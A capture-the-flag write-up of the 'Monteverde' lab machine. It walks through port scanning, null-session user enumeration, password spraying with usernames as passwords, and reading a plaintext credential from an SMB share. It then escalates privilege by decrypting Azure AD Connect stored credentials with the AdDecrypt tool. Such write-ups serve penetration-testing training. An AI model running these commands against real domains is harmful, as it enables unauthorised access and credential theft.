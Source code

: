 # Monteverde

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.228.111
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 03:03 EDT
Nmap scan report for 10.129.228.111
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49697/tcp open  unknown
```

### Username List -> User Creds

With `enum4linux` and null credentials, we can enumerate the possible users and the domain name:

```
$ enum4linux -u '' -p '' -a 10.129.228.111
Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan                                 
Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest

guest
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
AAD_987d7f2f57d2
Administrator
krbtgt
```

We can get a list of usernames here. I tried ASREP-Roasting, but nothing came of it. We can also check if any user has their password as their username with `cracpmapexec`, which returns something interesting:

```
$ crackmapexec smb 10.129.228.111 -u users -p users 2> /dev/null
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
<TRUNCATED>
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```

Seems that we have access to one user. When we enumerate the shares, we can see that we have access to the `users` and `azure_uploads` files. The latter has nothing in it, but the `users` file has loads of files:

```
$ smbclient -U "SABatchJobs" //10.129.228.111/users$
Password for [WORKGROUP\SABatchJobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  3 08:12:48 2020
  ..                                  D        0  Fri Jan  3 08:12:48 2020
  dgalanos                            D        0  Fri Jan  3 08:12:30 2020
  mhope                               D        0  Fri Jan  3 08:41:18 2020
  roleary                             D        0  Fri Jan  3 08:10:30 2020
  smorgan                             D        0  Fri Jan  3 08:10:24 2020
smb: \> cd mhope
smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 08:41:18 2020
  ..                                  D        0  Fri Jan  3 08:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 08:40:23 2020
```

We can see that there's an `azure.xml` file here. It contains a user credential:

```markup
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I also noticed that this uses Azure to do stuff, so let's keep that in mind for now. Anyways, we can login via `evil-winrm` with `mhope` and this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Azure Admins + Azure Connect

When we view our groups within the domain, we see that `mhope` is part of the Azure Admins group:

```
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   5/5/2023 12:16:08 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

Within the `C:\Program Files` directory, there are also some files pertaining to Azure:

```
*Evil-WinRM* PS C:\Program Files> dir
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

I googled on how to exploit these services. After some trial and error, I stumbled on this:

{% embed url="https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/" %}

Since Azure AD Connect was present, it means that there's a database of which the credentials are being stored. As Azure Admins, we probably have access to these passwords, which can be enumerated and decrypted.

{% embed url="https://github.com/VbScrub/AdSyncDecrypt/releases" %}

We just need to transfer the `AdDecrypt.exe` file along with `mcrypt.dll` to the machine. Then, following the PoC, we need to run this within `C:\Program Files\Microsoft Azure AD Sync\Bin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4079).png" alt=""><figcaption></figcaption></figure>

Then, using this password, we can login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (3760).png" alt=""><figcaption></figcaption></figure>

Rooted!
